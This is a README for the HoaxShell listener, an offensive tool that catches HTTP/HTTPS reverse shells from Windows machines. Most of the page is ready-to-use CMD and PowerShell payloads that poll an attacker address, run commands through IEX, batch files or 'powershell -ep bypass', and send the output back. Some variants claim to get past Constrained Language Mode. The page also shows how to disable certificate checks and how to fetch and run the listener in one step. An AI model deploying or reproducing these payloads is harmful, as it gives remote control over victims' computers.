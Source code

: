 # HoaxShell Listener
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.6-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/PowerShell-%E2%89%A5%20v3.0-blue">
<img height="20px" src="https://img.shields.io/badge/Windows%20cmd-%234D4D4D.svg?style=for-the-badge&logo=windows-terminal&logoColor=white">
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">  

## Purpose
A standalone version of HoaxShell's listener, mainly created for integration with [RevShells.com](https://revshells.com).  

## Installation
```
sudo pip3 install -r requirements.txt
```
**Important**: The `gnureadline` module is not meant for Windows and it will naturally cause an error if you try to install with pip. Remove `gnureadline` from the requirements.txt to install on Windows.

## Usage
The standalone listener does not include payload generation functions. It is desighed to work in a simple manner with the only required argument being the payload type to expect (payload types and templates listed below).  

You can run the listener by executing `hoaxshell-listener.py` or directly invoking it from the project's repository:
```
# Execute from file
python3 hoaxshell-listener.py -t <payload-type>

# Invoke from repository
python3 -c "$(curl -s https://raw.githubusercontent.com/t3l3machus/hoaxshell-RevShells/main/hoaxshell-listener.py)" -t <payload-type>
```

The listener is designed to accept any incoming connection bearing a session id in the form of `eb6a44aa-8acc1e56-629ea455`.  
You can keep the session id's included in the templates or alter them to different values.

## Payload Templates
1. Start the listener with the `--type [-t]` set to one of the available payload types below:  
`cmd-curl|ps-iex|ps-iex-cm|ps-outfile|ps-outfile-cm`
2. Grab the equivalent template and adjust the IP and PORT values. if you change the default port 8080/443 you need to parse it to the listener with `-p`.
3. Execute payload on the target machine.

### http payloads

#### cmd-curl
A brand new payload written in pure Windows CMD that utilizes cURL.
```
@echo off&cmd /V:ON /C "SET ip=192.168.0.71:8080&&SET sid="Authorization: eb6a44aa-8acc1e56-629ea455"&&SET protocol=http://&&curl !protocol!!ip!/eb6a44aa -H !sid! > NUL && for /L %i in (0) do (curl -s !protocol!!ip!/8acc1e56 -H !sid! > !temp!\cmd.bat & type !temp!\cmd.bat | findstr None > NUL & if errorlevel 1 ((!temp!\cmd.bat > !tmp!\out.txt 2>&1) & curl !protocol!!ip!/629ea455 -X POST -H !sid! --data-binary @!temp!\out.txt > NUL)) & timeout 1" > NUL
```

#### ps-iex
PowerShell payload that utilizes IEX.
```
$s='192.168.0.71:8080';$i='14f30f27-650c00d7-fef40df7';$p='http://';$v=IRM -UseBasicParsing -Uri $p$s/14f30f27 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/650c00d7 -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=IEX $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/fef40df7 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-iex-cm
Same as `ps-iex` but will also work if the target system is running on PowerShell Constraint Language Mode.
```
$s='192.168.0.71:8080';$i='bf5e666f-5498a73c-34007c82';$p='http://';$v=IRM -UseBasicParsing -Uri $p$s/bf5e666f -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/5498a73c -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=IEX $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/34007c82 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

#### ps-outfile
PowerShell payload that writes and executes commands from disc.
```
$s='192.168.0.71:8080';$i='add29918-6263f3e6-2f810c1e';$p='http://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/add29918 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/6263f3e6 -Headers @{"Authorization"=$i});if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/2f810c1e -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-outfile-cm
Same as `ps-outfile` but will also work if the target system is running on PowerShell Constraint Language Mode.
```
$s='192.168.0.71:8080';$i='e030d4f6-9393dc2a-dd9e00a7';$p='http://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=IRM -UseBasicParsing -Uri $p$s/e030d4f6 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/9393dc2a -Headers @{"Authorization"=$i}); if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/dd9e00a7 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

### https Payloads
You can parse certificate and private-key .pem files to the listener with `-c` and `-k` to start it via https.  
To generate self-signed certificates you can use: `openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365`  
Find below the payload templates adjusted to use https.

**For PowerShell payloads**: If you don't supply a trusted certificate to the listener, append this block at the beginning of the payload to disable certificate validation:
```
add-type @"
using System.Net;using System.Security.Cryptography.X509Certificates;                                  
public class TrustAllCertsPolicy : ICertificatePolicy {public bool CheckValidationResult(              
ServicePoint srvPoint, X509Certificate certificate,WebRequest request, int certificateProblem) {return true;}}
"@                                                                                                     
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```
#### cmd-curl
```
@echo off&cmd /V:ON /C "SET ip=192.168.0.71:443&&SET sid="Authorization: eb6a44aa-8acc1e56-629ea455"&&SET protocol=https://&&curl -fs -k !protocol!!ip!/eb6a44aa -H !sid! > NUL & for /L %i in (0) do (curl -fs -k !protocol!!ip!/8acc1e56 -H !sid! > !temp!\cmd.bat & type !temp!\cmd.bat | findstr None > NUL & if errorlevel 1 ((!temp!\cmd.bat > !tmp!\out.txt 2>&1) & curl -fs -k !protocol!!ip!/629ea455 -X POST -H !sid! --data-binary @!temp!\out.txt > NUL)) & timeout 1" > NUL
```

#### ps-iex
```
$s='192.168.0.71:443';$i='1cdbb583-f96894ff-f99b8edc';$p='https://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/1cdbb583 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/f96894ff -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/f99b8edc -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-iex-cm
```
$s='192.168.0.71:443';$i='11e6bc4b-fefb1eab-68a9612e';$p='https://';$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/11e6bc4b -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/fefb1eab -Headers @{"Authorization"=$i});if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/68a9612e -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```

#### ps-outfile
```                                                                                                                    
$s='192.168.0.71:443';$i='add29918-6263f3e6-2f810c1e';$p='https://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=Invoke-RestMethod -UseBasicParsing -Uri $p$s/add29918 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-RestMethod -UseBasicParsing -Uri $p$s/6263f3e6 -Headers @{"Authorization"=$i});if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-RestMethod -Uri $p$s/2f810c1e -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

#### ps-outfile-cm
```
$s='192.168.0.71:443';$i='e030d4f6-9393dc2a-dd9e00a7';$p='https://';$f="C:\Users\$env:USERNAME\.local\hack.ps1";$v=IRM -UseBasicParsing -Uri $p$s/e030d4f6 -Headers @{"Authorization"=$i};while ($true){$c=(IRM -UseBasicParsing -Uri $p$s/9393dc2a -Headers @{"Authorization"=$i}); if ($c -eq 'exit') {del $f;exit} elseif ($c -ne 'None') {echo "$c" | out-file -filepath $f;$r=powershell -ep bypass $f -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=IRM -Uri $p$s/dd9e00a7 -Method POST -Headers @{"Authorization"=$i} -Body ($e+$r)} sleep 0.8}
```
